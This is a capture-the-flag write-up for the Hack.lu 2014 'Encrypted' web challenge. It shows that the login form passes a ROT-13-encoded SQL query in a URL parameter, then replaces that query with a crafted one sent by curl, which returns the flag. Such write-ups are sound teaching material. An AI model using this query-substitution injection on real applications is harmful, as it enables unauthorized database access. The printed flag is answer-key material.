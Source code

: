 # Hack.lu CTF 2014: Encrypted

**Category:** Web
**Points:** 50
**Author:** TheJH
**Description:**

> Legend says there is a bank vault in Jamestown which cannot be broken into. The only way inside is through an authentication process. Even Jesse James and his companions failed to break the security of this particular bank. Can you do it?
>
> <https://wildwildweb.fluxfingers.net:1411/>

## Write-up

The website at <https://wildwildweb.fluxfingers.net:1411/> displays a simple login form. Entering `a` as the username and `b` as the password results in the following URL:

```
https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG+%60anzr%60+SEBZ+%60hfref%60+JURER+%60anzr%60+%3D+%27n%27+NAQ+%60cnffjbeq%60+%3D+ZQ5%28%27o%27%29
```

This presents an error message saying “bad password”.

That `dhrel` query string parameter value [URL-decodes into the following](https://mothereff.in/url#FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60%20JURER%20%60anzr%60%20%3D%20%27n%27%20NAQ%20%60cnffjbeq%60%20%3D%20ZQ5%28%27o%27%29):

```
FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'n' NAQ `cnffjbeq` = ZQ5('o')
```

This is a ROT-13-encoded SQL query. Let’s decode it using [`rot`](https://github.com/mathiasbynens/rot):

```bash
$ rot -n 13 'FRYRPG `anzr` SEBZ `hfref` JURER `anzr` = 'n' NAQ `cnffjbeq` = ZQ5('o')'
SELECT `name` FROM `users` WHERE `name` = a AND `password` = MD5(b)
```

Since we don’t know any username or password, let’s simplify this query a little bit:

```sql
SELECT `name` FROM `users`
```

This ROT-13-encodes into:

```bash
$ rot -n 13 'SELECT `name` FROM `users`'
FRYRPG `anzr` SEBZ `hfref`
```

After URL-encoding, [this becomes](https://mothereff.in/url#FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60):

```
FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60
```

Let’s make the request:

```bash
$ curl 'https://wildwildweb.fluxfingers.net:1411/dologin.php?dhrel=FRYRPG%20%60anzr%60%20SEBZ%20%60hfref%60'

<!DOCTYPE html>
<html>
  <head>
    <title>Encrypted Login</title>
  </head>
  <body>
    <h1>Encrypted Login</h1>
Hello admin! The flag is flag{nobody_needs_server_side_validation}.  </body>
</html>
```

The flag is `flag{nobody_needs_server_side_validation}`.

## Other write-ups and resources

* [Exploit in Bash by @TheJH](thejh_exploit.sh)

